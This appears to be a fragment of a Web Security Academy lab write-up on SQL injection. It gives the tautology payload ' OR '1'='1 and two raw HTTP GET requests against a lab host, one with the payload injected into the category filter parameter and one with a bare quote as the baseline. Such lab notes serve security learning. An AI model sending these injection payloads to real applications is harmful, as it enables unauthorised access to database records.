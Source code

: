 OR '1'='1 
##### Payload Request
GET /filter?category=Lifestyle' _OR '1'='1_ HTTP/2
Host: 0a2c002504b244f3828906a900db0032.web-security-academy.net
Accept-Encoding: gzip, deflate, br
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Cache-Control: max-age=0
Cookie: session=RsMlk6fHa57FZT1prYK1b0ZLa1tVKiXV
Upgrade-Insecure-Requests: 1
Referer: https://0a2c002504b244f3828906a900db0032.web-security-academy.net/
Sec-Ch-Ua: ".Not/A)Brand";v="99", "Google Chrome";v="128", "Chromium";v="128"
Sec-Ch-Ua-Platform: Windows
Sec-Ch-Ua-Mobile: ?0
Content-Length: 0
##### Base request
GET /filter?category=Lifestyle' HTTP/2
Host: 0a2c002504b244f3828906a900db0032.web-security-academy.net
Accept-Encoding: gzip, deflate, br
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Cache-Control: max-age=0
Cookie: session=RsMlk6fHa57FZT1prYK1b0ZLa1tVKiXV
Upgrade-Insecure-Requests: 1
Referer: https://0a2c002504b244f3828906a900db0032.web-security-academy.net/
Sec-Ch-Ua: ".Not/A)Brand";v="99", "Google Chrome";v="128", "Chromium";v="128"
Sec-Ch-Ua-Platform: Windows
Sec-Ch-Ua-Mobile: ?0
Content-Length: 0

